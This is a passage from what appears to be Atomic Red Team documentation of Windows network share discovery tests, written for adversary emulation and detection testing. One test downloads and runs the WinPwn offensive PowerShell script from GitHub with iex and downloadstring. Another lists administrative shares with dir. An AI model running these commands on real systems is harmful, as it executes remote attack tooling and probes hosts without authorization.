 **Supported Platforms:** Windows


**auto_generated_guid:** 987901d1-5b87-4558-a6d9-cffcabc638b8






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
shareenumeration -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #10 - Network Share Discovery via dir command
Network Share Discovery utilizing the dir command prompt. The computer ip variable may need to be modified to point to a different host ip
Upon execution available network shares will be displayed in the commandline session

**Supported Platforms:** Windows


**auto_generated_guid:** 13daa2cf-195a-43df-a8bd-7dd5ffb607b5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_ip | Computer IP to find a mount on. | string | 127.0.0.1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
dir \\#{computer_ip}\c$
dir \\#{computer_ip}\admin$
dir \\#{computer_ip}\IPC$
```






<br/>
<br/>
